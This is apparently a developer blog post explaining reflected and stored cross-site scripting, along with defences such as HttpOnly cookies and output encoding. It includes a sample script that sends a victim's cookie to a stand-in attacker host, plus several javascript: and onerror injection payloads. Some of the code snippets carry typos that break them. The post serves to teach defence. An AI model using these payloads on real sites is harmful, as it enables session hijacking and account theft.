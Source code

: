 ```yaml
---
title: Tackle Cross-Site Scripting Vulnerabilities in Frontend Development
date: 2021-05-20
tags: web development, security, networking
index_img: /images/thumbnail/xss.jpg
---
```

### How does Cross-Site Scripting work?
Cross-Site Scripting(XSS) is one of the most common security attacks on the client side of the application. XSS attacks is a type of code injection, where the malicious script or a segment of code is injected in the request to the server, and the server response which contains that maliciosus code will be run by victim's browser. Depending on what the injected code does, XSS attacks can cause a wide variety of damages to the victims, including stealing sensentitive user info from cookie, redirecting users to the malicious site built by the attackers, and even internally crashing user's machine by overflowing the memory, and so on.

Suppose you are a user of a financial site A(let's call it doerj.github.io), in which you usually manage your financial products and trade in stock market. After you logged in doerj.github.io, you will be directed to the url: `www.doerj.github.io/index.php?username=<user>` where the query parameter value `user` will be just the placeholder for your actual username, and this url request returns a user landing page with a page title of "Welcome back user!". What happens here, is that when you have filled in your user credentials in the log-in page, the application sends a GET request that contains your username as a query parameter to the server, and retrieve your account info from the database. The server then sends a html template(the user landing page) back to your browser, which parses your username out of the url for displaying the page title. 

Imagine there is a hacker who knows doerj.github.io is exposed with XSS security vulnerabilities, and wants to get your session id so the hacker can access your account as a logged-in user(i.e., pretend to be you). The session id is usually stored in the cookie with the server response, thus in order to get that session id, the hacker needs to make your browser execute a segment of code that extracts the session id from your cookie, and sends it to the hacker's own server. The first step for hacker is to think of a way if injecting his code into your request to doerj.github.io. One of the most common approches of doing that is to send you an anonymous email which contains a malicious url, and triggers you to click on that url. The url will be something like `www.doerj.github.io/index.php?username=<script>getSessonidFromCookie()</script>`. When you click on the url, the html template will try to get your username from the query parameter in the url, which is `<script>getSessionidFromCookie()</script>` in this case. Since the browser has no mechanism to detect whether the script tag in the DOM tree could be trusted or not, the injected script will be executed regardless. The injected script could be as the following:
```javascript
var session_id = documnet.cookie;
fetch('www.hackersite.com', { session: session_id }).then(() => { return; });
```
What the code does is getting your cookie that contains your session id, and send to hacker's server. Now the hacker has your session id, and can store the id in hackers' own browser while making request to doerj.github.io. The server of doerj.github.io sees the session id in hacker's cookie, thus recognizes the hacker as you, and gives the hacker access to your account.

The scenario above is just one type of XSS attacks, which is known as `reflected XSS`. Reflected XSS occurs when the injected code travels with the user request, all the way to the server-side, and is reflected in the server response and finally executed by user's browser. This type of attacks requires certain user action to trigger the code injection, such as clicking on a designated link to inject the malicious script into the url or the request body. There is also `stored XSS` where the script permanantly resides on the server-side. Whenever the infected server receives a user request that contains some user info, the script will act as a man-in-the-middle, intercept the sensentive info that the server fetched from the databse, and send to attack's appointed site. 

### What are the solutions?
##### HTTP-only cookie
HTTP-only is an attribute that can be specified for the cookie. The cookie value with HTTP-only attribute can not be accessed by any script anymore, thus the hacker will not be able to use script or document API to get information from the cookie and send to hacker's own computer. Setting HTTP-only cookie doesn't eliminate XSS attacks from happening, but effectively mitigates the sensitive info from being stolen from the source. The following code sets HTTP-only attribute to cookie using node.js:
```javascript 
cosnt cp = require('cookie-parser');
app.use(cp());

app.post('/example-route', (req, res) => {
  res.cookie('session_id', '123456', {
    httpOnly: true
  });
  res.send('<div>Cookie has been set with HTTP-only!</div>');
})
```

##### Encoding on the output 
To prevent XSS attacks in our applcations, we should have the mindset that each DOM documnet is a HTML template that has slots into which untrusted data can be inserted. When the browser renders a DOM tree, it has no idea whether each data comes from a trusted data source. Therefore, it is important to prevent the browser switching to execution context while rendering HTML template. One way to achieve that is to apply HTML entity encoding to the HTML element content that contains any dynamic data attribute or the data that may comes from a untrusted source. The following characters are encoded with HTML entity and can be used in HTML element content:
```text
 & --> &amp;
 < --> &lt;
 > --> &gt;
 " --> &quot;
 ' --> &#x27;
```

Other than the HTML element content, the HTML attribute values can also be the place to inject javascript code using `javascript pseudo protcol`. For example:
```html
<div>
  <a href="javascript:injectCode()"></a>
  <div onclick="javascript:injectCode()"></div>
  <div onerror="javascript:injectCode()"></div>
  <img src onerror="alert('XSS')"/>
</div>
```
Therefore, the values should also be encoded before being put into HTML attributes. 


